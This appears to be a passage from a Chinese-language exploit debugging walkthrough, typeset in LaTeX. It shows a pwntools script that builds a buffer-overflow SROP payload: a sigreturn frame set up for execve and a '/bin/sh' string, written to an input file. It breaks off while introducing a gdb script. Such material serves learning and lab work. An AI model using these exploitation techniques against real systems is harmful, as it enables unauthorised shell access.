 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CharTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\ImportTok}[1]{#1}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
先做一個輸入檔：

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{\# make\_input.py}
\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}
\NormalTok{context.arch }\OperatorTok{=} \StringTok{\textquotesingle{}amd64\textquotesingle{}}
\NormalTok{f }\OperatorTok{=}\NormalTok{ SigreturnFrame()}\OperatorTok{;}\NormalTok{ f.rip }\OperatorTok{=} \BaseNTok{0x401069}\OperatorTok{;}\NormalTok{ f.rax }\OperatorTok{=} \DecValTok{59}\OperatorTok{;}\NormalTok{ f.rsp }\OperatorTok{=} \BaseNTok{0x4141414141414141}
\NormalTok{payload  }\OperatorTok{=} \StringTok{b\textquotesingle{}B\textquotesingle{}}\OperatorTok{*}\BaseNTok{0x80} \OperatorTok{+}\NormalTok{ p64(}\BaseNTok{0x40104f}\NormalTok{) }\OperatorTok{+}\NormalTok{ p64(}\BaseNTok{0x401069}\NormalTok{) }\OperatorTok{+} \BuiltInTok{bytes}\NormalTok{(f)}
\NormalTok{payload  }\OperatorTok{=}\NormalTok{ payload.ljust(}\BaseNTok{0x400}\NormalTok{, }\StringTok{b\textquotesingle{}}\CharTok{\textbackslash{}x00}\StringTok{\textquotesingle{}}\NormalTok{)}
\BuiltInTok{open}\NormalTok{(}\StringTok{\textquotesingle{}/tmp/in.bin\textquotesingle{}}\NormalTok{,}\StringTok{\textquotesingle{}wb\textquotesingle{}}\NormalTok{).write(}\StringTok{b\textquotesingle{}A\textquotesingle{}}\OperatorTok{*}\BaseNTok{0x18} \OperatorTok{+}\NormalTok{ payload }\OperatorTok{+} \StringTok{b\textquotesingle{}/bin/sh}\CharTok{\textbackslash{}x00}\StringTok{\textquotesingle{}} \OperatorTok{+} \StringTok{b\textquotesingle{}C\textquotesingle{}}\OperatorTok{*}\DecValTok{7}\NormalTok{)}
\end{Highlighting}
\end{Shaded}

再存一個 gdb 腳本（\texttt{/\allowbreak{}tmp/\allowbreak{}t.\allowbreak{}gdb}）------
這個版本會在\textbf{上面表格的每一列}都停下來印值：
\end{document}
